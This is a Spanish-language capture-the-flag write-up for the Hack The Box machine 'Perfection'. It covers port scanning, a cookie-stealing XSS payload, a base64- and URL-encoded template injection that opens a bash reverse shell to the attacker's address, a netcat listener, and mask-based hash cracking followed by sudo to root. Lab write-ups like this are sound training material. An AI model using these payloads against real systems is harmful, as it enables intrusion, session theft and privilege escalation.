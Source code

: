 ```yaml
---
title: "Perfection"
description: "Perfection"
pubDate: 2025-05-20
---
```


https://app.hackthebox.com/machines/Perfection

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.11.253
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240510182805.png)

## Reconocimiento de servicios

````
nmap -sCV -p22,80 10.10.11.253
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240510182853.png)

# Fase de ataque

## CRLF Inyection

Intentamos XSS inyection pero no deja porque lo detecta

````
# Cookie Hijacking
<script>document.location="http://<ip>?cookie="+document.cookie</script>
````

Encontramos una forma de inyectar comandos dentro de las categorias:

1. Convertimos a base64 el código que queremos ejecutar

````
echo "bash -i >& /dev/tcp/10.10.14.147/1111 0>&1" | base64
````

2. Insertamos el código junto al la inyeccion:

````
<%=system("echo+<base64>| base64 -d | bash"); %>1
````

3. Urlencodeamos el código correspondiente

````
%0a<%25%3dsystem("echo+%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%43%34%78%4e%44%63%76%4d%54%45%78%4d%53%41%77%50%69%59%78%43%67%3d%3d|+base64+-d+|+bash")%3b+%25>1
````

4. Nos ponemos en escucha

````
nc -nlvp 1111
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240510192851.png)
\[-\] ==pwned!==

## Ajustar terminal

````
script /dev/null -c bash
````

ctrl + z

````
stty raw -echo; fg
````

````
	reset xterm
````

````
export TERM=xterm
````

# Privilege Escalation

Encontramos un hash en una base de datos:

````
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
````

No se puede crackear
Encontramos un correo para Susan de como es la contraseña
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240510194637.png)
Podemos obsevar que el hash es el nombre_nombrealreves_numeroaletoriode1a1000000.

## Crackeamos

````
hashcat -m 1400 hash.txt -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d
````

Con la contraseña:

````
sudo -l
````

Vemos que tenemos acceso root

````
sudo su
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240510195643.png)
\[+\] ==pwned!==
